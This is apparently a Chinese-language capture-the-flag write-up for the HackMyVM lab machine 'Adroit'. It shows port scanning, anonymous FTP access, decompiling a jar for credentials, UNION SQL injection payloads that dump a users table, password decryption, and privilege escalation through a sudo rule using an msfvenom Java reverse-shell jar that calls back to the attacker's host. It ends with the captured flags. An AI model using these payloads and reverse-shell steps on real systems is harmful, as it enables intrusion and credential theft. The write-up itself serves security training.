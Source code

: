 ```yaml
---
{"created":"2024-12-03T16:31:49.199+08:00","tags":["HMV","java反编译","SQL注入"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️","作者":"alienum","aliases":null,"permalink":"/24-渗透/HMV/36.Adroit/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/36.Adroit#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/36.Adroit#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/36.Adroit#3. java反编译\|3. java反编译]]
- [[24-渗透/HMV/36.Adroit#4. sql注入\|4. sql注入]]
- [[24-渗透/HMV/36.Adroit#5. 解密密码\|5. 解密密码]]
- [[24-渗透/HMV/36.Adroit#6. 提权\|6. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=Adroit
**作者** alienum
**难度** ⭐️⭐️⭐️⭐️️
## 2. 信息收集
```bash
┌──(root㉿kali)-[~]
└─# fscan -h 192.168.80.11

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.80.11:3306 open
192.168.80.11:3000 open
192.168.80.11:21 open
192.168.80.11:22 open
[*] alive ports len is: 4
start vulscan
[+] ftp 192.168.80.11:21:anonymous
   [->]pub

```
ftp
```bash
ftp> ls -a
229 Entering Extended Passive Mode (|||40570|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Mar 19  2021 .
drwxr-xr-x    3 ftp      ftp          4096 Jan 14  2021 ..
-rw-r--r--    1 ftp      ftp          5451 Jan 14  2021 adroitclient.jar
-rw-r--r--    1 ftp      ftp           229 Mar 19  2021 note.txt
-rw-r--r--    1 ftp      ftp         36430 Jan 14  2021 structure.PNG

```
`structrue.png`
![Pasted image 20241203164149](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203164149.png)

## 3. java反编译
![Pasted image 20241203164747](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203164747.png)
获取到secret `Sup3rS3cur3Dr0it`
![Pasted image 20241203165012](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203165012.png)
域名 `adroit.local`
![Pasted image 20241203165048](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203165048.png)
用户名 `zeus` 域名 `god.thunder.olympus`

添加一个域名 `adroit.local`

尝试运行一下jar包
> 这里我用jdk8运行不了 ，切换到jdk11可以运行

提示输入账户密码 挨个测试即可
```java
┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# java -jar adroitclient.jar
Enter the username :
zeus
Enter the password :
Sup3rS3cur3Dr0it
Wrong username or password   

┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# java -jar adroitclient.jar
Enter the username :
zeus
Enter the password :
god.thunder.olympus
Options [ post | get ] :
get
Enter the phrase identifier :
1

```
`god.thunder.olympus` 就是密码

## 4. sql注入
```bash
┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# java -jar adroitclient.jar
Enter the username :
zeus
Enter the password :
god.thunder.olympus
Options [ post | get ] :
get
Enter the phrase identifier :

1 union select 1,database() -- -
--> adroit

1 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema ='adroit' -- -
-->  ideas,users

1 union select 1,group_concat(column_name) from information_schema.columns where table_name ='users' -- -
--> 
id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS

1 union select 1,group_concat(username,0x3a,password) from users -- -
--> writer:l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=
```
获取到了账户密码 `writer:l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=`
但是密码是加密的

但是加密的
## 5. 解密密码
解密的代码可以在jar包反编译中发现
![Pasted image 20241203172527](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203172527.png)
密钥上面获取到了是 `Sup3rS3cur3Dr0it`
但是注意这里需要将0换成O
所以正确的密钥是 `Sup3rS3cur3DrOit`

参考 [Mikannse的wp](https://mikannse.space/2024/02/17/%E6%89%93%E9%9D%B6%E8%AE%B0%E5%BD%95(%E4%B9%9D%E4%B8%89)%E4%B9%8BHMVAndroit/)对这个进行解密


获取到密码是 `just.write.my.ideas`

## 6. 提权
利用账户密码登录
```bash
writer ： just.write.my.ideas
┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# ssh writer@192.168.80.11
writer@192.168.80.11''s password:
Linux adroit 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jan 14 23:14:06 2021 from 10.0.2.15
writer@adroit:~$ id
uid=1000(writer) gid=1000(writer) groups=1000(writer),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
writer@adroit:~$ whoami
writer

```

```bash
writer@adroit:~$ sudo -l
[sudo] password for writer:
Matching Defaults entries for writer on adroit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User writer may run the following commands on adroit:
    (root) /usr/bin/java -jar /tmp/testingmyapp.jar

```

msf生成jar包 反弹shell
```bash
msfvenom -p java/shell_reverse_tcp lhost=192.168.80.5 lport=4444 -f jar -o reverse.jar

writer@adroit:/tmp$ cp reverse.jar  /tmp/testingmyapp.jar
writer@adroit:/tmp$ sudo -u root java -jar /tmp/testingmyapp.jar

[17:54:28] Welcome to pwncat 🐈!                                                                       __main__.py:164
[17:56:16] received connection from 192.168.80.11:51550                                                     bind.py:84
[17:56:17] 0.0.0.0:4444: upgrading from /usr/bin/dash to /usr/bin/bash                                  manager.py:957
           192.168.80.11:51550: registered new host w/ db                                               manager.py:957
(local) pwncat$
(remote) root@adroit:/tmp# whoami
root
(remote) root@adroit:/root# ls
root.txt
(remote) root@adroit:/root# cat root.txt
017a030885f25af277dd891d0f151845
(remote) root@adroit:/root# cd /home/writer/
(remote) root@adroit:/home/writer# cat user.txt
61de3a25161dcb2b88b5119457690c3c
(remote) root@adroit:/home/writer#
```

> 我觉得这个靶场不算难。难点只是在分析java代码那里，不过我看不懂java